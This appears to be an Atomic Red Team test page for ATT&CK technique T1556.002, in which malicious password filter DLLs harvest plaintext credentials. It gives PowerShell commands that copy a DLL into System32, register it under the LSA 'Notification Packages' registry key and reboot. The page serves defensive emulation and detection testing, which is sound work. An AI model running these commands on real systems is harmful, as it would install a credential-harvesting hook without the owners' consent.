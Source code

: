 # T1556.002 - Password Filter DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1556/002)
<blockquote>Adversaries may register malicious password filter dynamic link libraries (DLLs) into the authentication process to acquire user credentials as they are validated. 

Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as DLLs containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts. Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests validation from each registered filter. Any potential changes cannot take effect until every registered filter acknowledges validation. 

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains. To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter would receive these plain-text credentials every time a password request is made.(Citation: Carnal Ownage Password Filters Sept 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)


<br/>

## Atomic Test #1 - Install and Register Password Filter DLL
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_dll | Path to DLL to be installed and registered | Path | PathToAtomicsFolder&#92;T1556.002&#92;src&#92;AtomicPasswordFilter.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$passwordFilterName = (Copy-Item "#{input_dll}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
Restart-Computer -Confirm
```




#### Dependencies:  Run with `powershell`!
##### Description: AtomicPasswordFilter.dll must exist on disk at specified location (#{input_dll})
##### Check Prereq Commands:
```powershell
if (Test-Path #{input_dll}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
Write-Host "You must provide your own password filter dll"
```




<br/>
